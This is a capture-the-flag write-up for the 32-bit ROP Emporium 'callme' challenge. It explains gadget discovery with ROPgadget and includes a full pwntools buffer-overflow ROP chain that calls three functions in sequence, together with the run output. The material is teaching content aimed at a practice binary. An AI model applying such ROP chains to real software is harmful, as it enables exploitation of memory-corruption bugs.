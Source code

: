 ## Callme
### Challenge Description :  Chain calls to multiple imported methods with specific arguments and see how the differences between 64 & 32 bit calling conventions affect your ROP chain.

---
### HINT : To dispose of the need for any RE we'll tell you the following:
You must call callme_one(), callme_two() and callme_three() in that order, each with the arguments 1,2,3 e.g. callme_one(1,2,3) to print the flag. The solution here is simple enough, use your knowledge about what resides in the PLT to call the callme_ functions in the above order and with the correct arguments. Don't get distracted by the incorrect calls to these functions made in the binary, they're there to ensure these functions get linked. You can also ignore the .dat files and the encrypted flag in this challenge, they're there to ensure the functions must be called in the correct order.

---
So, building up on the previous challenge, now, we have to call three functions in order to get the flag. 

---
Few definitions : 

RET : Transfers program control to a return address located on the top of the stack

Call : call causes the procedure named in the operand to be executed

---

Like previous challenges, to call a specific function, we need to overwrite the %old ebp in the stack for the first function call. After the function is done executing, we need the address of a *cleanup* function/code. This should be followed by the 3 parameters, 1,2 & 3. 

*cleanup* : This code should remove the three parameters from the stack, so that when the function returns, it calls the next function. Since, `NX Enabled`, we can't inject a shell code do the same for us. So, we use `ROP`. We try to find something in the assembly itself, so that we can execute the above logic. 

So, to do the same, we use `ROPgadget` which searches the assembly for `gadgets` which is basically just a fance term for code snippets which end in a return and can be used for ROP purposes. 

We need gadgets that contain mov or pop, so that stack can be emptied.

```
ROPgadget --binary callme32 --only "mov|pop|ret"

Gadgets information
========================================================
====
0x08048707 : mov al, byte ptr [0xc9010804] ; ret
0x08048670 : mov ebx, dword ptr [esp] ; ret
0x080488ab : pop ebp ; ret
0x080488a8 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret
0x08048579 : pop ebx ; ret
0x080488aa : pop edi ; pop ebp ; ret
0x080488a9 : pop esi ; pop edi ; pop ebp ; ret
0x08048562 : ret
0x080486be : ret 0xeac1

Unique gadgets found: 9
```

The `gadget` at `0x080488a9` looks good as it empties three values from the stack. 

So, for the exploit.

`exploit.py`

```
from pwn import *


def add_rop(payload):
    payload+=p32(0x080488a9)
    payload+=p32(1)
    payload+=p32(2)
    payload+=p32(3)
    return payload

elf = context.binary = ELF('callme32')

info('callme_one : %#x',elf.symbols.callme_one)
info('callme_two : %#x',elf.symbols.callme_two)
info('callme_three : %#x',elf.symbols.callme_three)

offset=44
one = p32(elf.symbols.callme_one)
two = p32(elf.symbols.callme_two)
three = p32(elf.symbols.callme_three)

payload='A'*44
payload+=one
payload=add_rop(payload)
payload+=two
payload=add_rop(payload)
payload+=three
payload=add_rop(payload)

io = process(elf.path)

io.recv()
io.sendline(payload)

flag = io.recvall()
success("Flag : %s",flag)

```
`output`

```
 python2 exploit.py 
[*] '/ropemporium/callme/callme32'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
    RPATH:    './'
[*] callme_one : 0x80485c0
[*] callme_two : 0x8048620
[*] callme_three : 0x80485b0
[+] Starting local process '/home/vipul/Desktop/ropempor
ium/callme/callme32': pid 16024
[+] Receiving all data: Done (32B)
[*] Process '/ropemporium/callme/callme32' stopped with exit code 0 (pid 16024)
[+] Flag : ROPE{a_placeholder_32byte_flag!}
```